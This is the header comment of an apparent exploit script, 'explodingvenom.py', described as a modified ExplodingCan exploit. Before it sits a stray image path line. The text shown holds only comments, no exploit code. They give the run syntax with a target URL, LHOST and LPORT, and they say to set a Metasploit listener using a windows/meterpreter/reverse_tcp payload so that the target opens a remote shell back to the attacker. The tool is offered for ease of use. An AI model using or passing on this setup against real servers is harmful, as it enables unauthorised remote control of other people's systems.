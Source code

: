 # Modified version of the ExplodingCan exploit which persists through the 'utf16' codec can't decode error
# Simply run this script using the following syntax:
# python explodingvenom.py <target url> <LHOST> <LPORT>
#
# Set your reverse shell listener in Metasploit to use windows/meterpreter/reverse_tcp as the payload
#
# I did not write the original ExplodingCan exploit, this is simply a modified version for your ease of use
# -X3R[]
